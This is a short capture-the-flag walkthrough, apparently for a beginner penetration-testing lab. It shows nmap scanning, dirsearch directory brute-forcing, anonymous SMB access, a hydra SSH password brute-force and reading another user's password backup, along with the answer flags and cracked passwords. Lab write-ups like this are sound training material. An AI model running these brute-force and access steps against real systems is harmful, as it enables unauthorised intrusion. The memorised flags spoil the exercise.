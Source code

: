 **Deploy the machine and connect to our network**

---

**Find the services exposed by the machine**

```bash
sudo nmap -F 0.0.0.0
```

![[Captura desde 2024-10-14 04-00-48.png]]

![[Captura desde 2024-10-15 03-37-52.png]]

---

**What is the name of the hidden directory on the web server(enter name without /)?**

```bash
dirsearch -u http://0.0.0.0/ -w /usr/share/wordlists/directory-list-1.0.txt
```

![[Captura desde 2024-10-14 04-03-29.png]]

**flag: `/development`**

---

**User brute-forcing to find the username & password**

```bash
smbclient //10.10.155.115/Anonymous -U "%"
```

![[Captura desde 2024-10-15 04-15-36.png]]

---

**What is the username?**

![[Captura desde 2024-10-15 04-19-45 1.png]]

**flag: `jan`**

---

**What is the password?**

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -f -V -T 50 0.0.0.0 ssh
```

![[Captura desde 2024-10-15 04-46-57.png]]

**flag: `armando`**

---

**What service do you use to access the server(answer in abbreviation in all caps)?**

```bash
ssh jan@0.0.0.0
```

![[Captura desde 2024-10-15 04-53-55.png]]

**flag: `ssh`**

---

**Enumerate the machine to find any vectors for privilege escalation**

```bash
vim /home/kay/pass.bak
```

---

**What is the name of the other user you found(all lower case)?**

**flag: `kay`**

---

**If you have found another user, what can you do with this information?**

---

**What is the final password you obtain?**

**flag: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`**

---
